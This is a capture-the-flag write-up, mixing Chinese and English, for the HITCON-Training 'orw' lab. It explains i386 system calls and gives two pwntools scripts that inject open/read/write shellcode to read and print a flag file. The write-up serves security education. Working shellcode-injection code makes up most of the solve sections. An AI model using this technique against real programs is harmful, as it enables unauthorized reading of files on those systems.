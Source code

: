 # Lab2 orw

## 先備知識

### System call

system call function, eax, ebx, ecx, edx

<img src="https://github.com/KJ-black/CTF-write-up/blob/main/HITCON-Training/jpg/row.png" width=900>

### prctl() process control

可以對process進行一些設置，可以限制process的系統調用

### assembly code

[官方asm document](http://docs.pwntools.com/en/stable/asm.html)

- open

    ```wasm
    pop ebx ; ebx's value is filename, fd
    mov eax,5 ; open system call number
    mov ecx,0 ; flag
    int 0x80 ; after open finished, fd will return to eax
    ```

- read

    ```wasm
    mov ebx,eax ; fd
    mov ecx,esp ; put buffer in stack
    mov edx,0x60 ; size, we give it randomly
    mov eax,3 ; read system call number
    int 0x80 ; read will return the length
    ```

- write

    ```wasm
    mov edx, eax ; we put the length to edx
    mov ebx,1 ; stdout
    mov eax, 4
    int 0x80
    ```

- exit

    ```wasm
    mov eax,1
    int 0x80
    ```

## ORW (open read write)

調用system call的open read write取得flag

1. 先將打開該檔案open(filepath)
2. 讀取該檔案內容至內存
3. 利用write將內存用stdout輸出

## Solve

### solve 1 with asm

```python
from pwn import *

#r = remote("csie.ctf.tw", 10134)
r = process('./orw.bin')

sc = asm(
"""
    jmp hello
write:
	
	pop ebx 
	mov eax,5
	mov ecx,0 
	int 0x80 

	mov ebx,eax
	mov ecx,esp 
	mov edx,0x60
	mov eax,3 
	int 0x80
	
	mov edx, eax
	mov ebx,1
	mov eax, 4
	int 0x80
	
	mov eax,1
	int 0x80

hello:
    call write
    .ascii "/home/orw/flag"
    .byte 0
""", arch="i386")

r.recvuntil(":")
r.sendline(sc)
print r.recvall()
r.close()
# r.interactive()
```

## solve 2 with shellcraft (sc)

```python
#!/usr/bin/env python
#coding:utf-8

from pwn import *
from pwn import shellcraft as sc
context.log_level = "debug" # debug mode

shellcode = sc.pushstr("flag") # first push the filepath to the top of the stack
shellcode += sc.open("esp", 0, 0) # open the top of stack
shellcode += sc.read("eax", "esp", 0x100) # ( mov ebx,eax , mov ecx,exp , mov edx 0x100 )
shellcode += sc.write(1, "esp", 0x100) # ( mov ebx,1 , mov ecx,esp , mov, edx 0x100 )

io = process("./orw.bin")
#print(asm(shellcode))
io.sendlineafter("shellcode:", asm(shellcode))
print io.recvall()
io.close()
```
